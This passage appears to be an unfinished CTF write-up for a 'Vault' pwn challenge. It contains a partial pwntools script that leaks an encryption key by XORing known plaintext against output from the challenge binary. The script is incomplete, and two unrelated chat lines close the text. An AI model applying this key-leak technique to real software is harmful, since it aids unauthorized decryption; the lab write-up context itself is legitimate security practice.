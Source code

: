 ## PWN - Vault

Did not have time to pwn this challenge. I started working at the end of the event and found interesting things, but not enough to pwn it yet. I might continue this challenge and post write-up.

```python
from pwn import *
import argparse

context.binary = './vault'

def _leak_encryption_key(byte_idx, idx):
    p.recvuntil(b'> ')
    p.sendline(str(idx).encode())
    p.recvuntil(b'URL: ')
    url = b'http://' + b'A'*128 + b':'
    p.sendline(url)
    p.recvuntil(b'Password: ')
    plain = b'A'*byte_idx + b'B' + b'A'*(64-byte_idx-1) 
    p.sendline(plain)

    p.recvuntil(b'> ')
    p.sendline(b'2')
    p.recvuntil(b'Index: ')
    p.sendline(b'0')
    leak = p.recvline()
    leak_start = leak.find(b'A'*128) + 128
    key = bytes([ plain[i] ^ leak[i] for i in range(len(leak[leak_start:-1]))])
    p.recvline()
    return key


def leak_encryption_key():
    p.recvuntil(b'> ')
    p.sendline(b'2')
    p.recvuntil(b'Index: ')
    p.sendline(b'0')
    leak = p.recvline()
    leak_start = leak.find(b'A'*128) + 128
    key = bytes([ 0x41 ^ l for l in leak[leak_start:-1]])
    p.recvline()
    idx = 1
    while len(key) < 64:
        print('[*] Retrying leak')
        key = _leak_encryption_key(len(key), idx)
        idx += 1
    return key


if __name__ == "__main__":
    parser = argparse.ArgumentParser()

    subparsers = parser.add_subparsers(dest='command')

    parser_local = subparsers.add_parser('local')

    parser_remote = subparsers.add_parser('remote')
    parser_remote.add_argument('host')
    parser_remote.add_argument('port', type=int)

    parser.add_argument('-b', '--binary', help='local binary path', required=True)
    parser.add_argument('-l', '--libc', help='local libc path', required=True) # remove if libc not needed

```

[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!
